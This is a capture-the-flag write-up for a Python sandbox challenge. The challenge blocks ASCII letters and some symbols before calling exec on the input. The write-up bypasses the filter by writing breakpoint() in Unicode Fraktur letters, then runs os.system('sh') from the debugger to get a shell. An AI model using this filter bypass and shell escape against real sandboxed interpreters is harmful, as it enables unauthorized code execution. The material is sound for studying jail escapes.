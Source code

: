 # HellJail
`-`

## About the Challenge
We have been given a source code like this

```python
#!/usr/bin/env python3

from string import ascii_letters

code = input('> ')

if any(c in ascii_letters for c in code):
    print('You will never leave this place!')
elif any(c in '.:;,-_@"=/%\\' for c in code):
    print('You will never reach this point, but still, you CANNOT leave!')
else:
    exec(code)
```

And we need to escape from the sandbox but we can input any ASCII letter and also some of the special character

![preview](images/preview.png)


## How to Solve?
To solve this problem, we need to convert our payload first to gothic font (Im using this [website](https://yaytext.com/fraktur/)) and here is the payload that I used

```
𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱()
```

And then after enterring Python debugging, i ran this command

```python
import os
os.system('sh')
```

![flag](images/flag.png)

```
DANTE{4b4nd0n_all_h0p3_y3_who_3nter}
```